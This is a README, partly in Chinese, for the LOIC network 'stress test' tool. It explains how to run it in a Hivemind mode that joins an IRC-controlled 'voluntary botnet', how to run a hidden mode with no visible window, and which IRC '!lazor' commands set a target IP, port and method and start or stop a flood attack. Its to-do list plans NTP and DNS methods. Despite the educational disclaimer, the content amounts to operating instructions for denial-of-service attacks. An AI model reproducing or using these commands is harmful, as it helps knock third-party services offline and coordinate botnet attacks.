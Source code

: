 ## INFO

低轨道离子炮（LOIC）是一款用 C# 编写的开源网络压力测试工具。LOIC 基于 Praetox 的 LOIC 项目（网址：https://sourceforge.net/projects/loic/）。

## DISCLAIMER

LOIC 仅供教育用途，旨在帮助服务器所有者培养“黑客防御”意识。本工具不提供任何担保。

**您不得将本软件用于非法或不道德的用途。这包括可能引起刑事或民事责任的活动。**

**在任何情况下，许可方均不对被许可方的任何活动或不当行为负责。**

## HOW TO RUN ON WINDOWS

获取二进制文件！

需要 Microsoft .NET Framework 3.5 Service Pack 1，下载地址：
http://www.microsoft.com/downloads/en/details.aspx?FamilyID=ab99342f-5d1a-413d-8319-81da479ab0d7&displaylang=en

## HIVEMIND/HIDDEN MODE

HIVEMIND 模式会将您的客户端连接到 IRC 服务器，以便对其进行远程控制。
您可以将其视为一个自愿的僵尸网络。请注意，您的客户端可能会被
控制去做一些不正当的事情。

注意：它不允许远程管理您的机器；它
只提供对 LOIC 本身的控制。

如果您想以 Hivemind 模式启动，请运行以下命令：

```
	LLOIC.exe /hivemind irc.server.address
```
这将连接到 irc://irc.server.adress:6667/loic

您还可以指定端口和频道：

```
	LLOIC.exe /hivemind irc.server.address 1234 #secret
```
这将连接到 irc://irc.server.adress:1234/secret

要运行 Hivemind 隐藏模式，请运行以下命令：

```
	LLOIC.exe /hidden /hivemind irc.server.address
```
它将连接到 irc://irc.server.adress:6667/loic，而没有任何可见的 GUI。

## CONTROLLING LOIC FROM IRC

As an OP, Admin or Owner, set the channel topic or send a message such as the following:
```
	!lazor targetip=127.0.0.1 message=test_test port=80 method=tcp wait=false random=true
```

To start an attack, type:
```
	!lazor start
```

or append "start" to the END of the topic:
```
	!lazor targetip=127.0.0.1 message=test_test port=80 method=tcp wait=false random=true start
```

To reset LOIC's options back to their defaults:
```
	!lazor default
```

To stop an attack:
```
	!lazor stop
```

and **be sure to remove "start" from the END of the topic**, if it exists, as well.

Take a look at the source code for more details.

## To Do List

| No.  | method |  Do  |
| :--: | :----: | :--: |
|  1   |  NTP   |  ❌   |
|  2   |  DNS   |  ❌   |
|  3   |   -    |  ❌   |
|  4   |   -    |  ❌   |
